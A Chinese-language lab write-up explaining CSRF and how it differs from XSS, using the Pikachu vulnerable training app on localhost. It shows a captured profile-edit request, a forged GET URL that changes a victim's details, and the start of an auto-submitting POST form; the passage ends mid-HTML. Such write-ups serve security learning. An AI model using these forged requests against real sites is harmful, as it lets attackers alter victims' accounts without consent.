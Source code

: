 #### 为什么会出现CSRF漏洞*
一方面，用户安全意识不足，访问不知名的url
另一方面，web没有做到准确的合法用户验证

##### CSRF与XSS的区别
CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS可以通过盗取cookie来直接获取用户权限来实施攻击。

##### 如何确认一个web系统存在csrf漏洞
1、对目标网站增删改的地方进行标记，并观察其逻辑，判断请求是否可以被伪造

- 例如：修改管理员账号时，并不需要验证旧密码，导致请求容易被伪造
- 例如：对于敏感信息的修改并没有使用安全的token验证，导致请求容易被伪造

2、确认凭证的有效期（这个问题会提高CSRF被利用的概率）
虽然退出或者关闭了浏览器，但cookie仍然有效，或者session并没有过期，导致CSRF攻击变得简单。

### CSRF(GET)
- 使用提示的用户名和密码进行登录
![](https://img-blog.csdnimg.cn/b9ab24fe02644b6589b705cbe62f7ee5.png)
![](https://img-blog.csdnimg.cn/c34aa7d86326450187f94cc882f85143.png)
- 点击修改个人信息，提交并使用bp抓包
![](https://img-blog.csdnimg.cn/6702378d18c24741b37c2b4edf983f54.png)
这是我们提交的请求：
```
GET /pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=%E7%94%B7&phonenum=11111111&add=%E5%8C%97%E4%BA%AC&email=222222&submit=submit
```
我们并没有看到CSRF的token，说明没有防CSRF的措施。
修改get请求，我们将phonenum修改为521521，然后补全url并发送给被攻击者
```
http://127.0.0.1/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=%E7%94%B7&phonenum=521521&add=%E5%8C%97%E4%BA%AC&email=222222&submit=submit
```
如果被攻击者此时登录状态或cookie/session没有过期，则她的信息被修改
![](https://img-blog.csdnimg.cn/b1f6b6bf75e445dd9968ece59a5d37cd.png)

### CSRF(PSOT)
同上登录后进行抓包
![](https://img-blog.csdnimg.cn/5c2439c5c70943c8858c27a5f21e7168.png)
post型，因为是请求体，不能在url中，所以无法再使用上述办法（即通过URL来伪造请求)进行修改。
但是我们可以根据抓包所获取的信息自己构造一个表单
![](https://img-blog.csdnimg.cn/67e18d97d3c447a48d17ddcb302a21a5.png)
构造表单
![](https://img-blog.csdnimg.cn/e25d82a5ba104105a63dfd413ac397cc.png)
代码如下：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>csrf_post</title>
    <script>
        window.onload = function(){
            document.getElementById("postsubmit").click();
        }
    </script>
</head>
<body>
```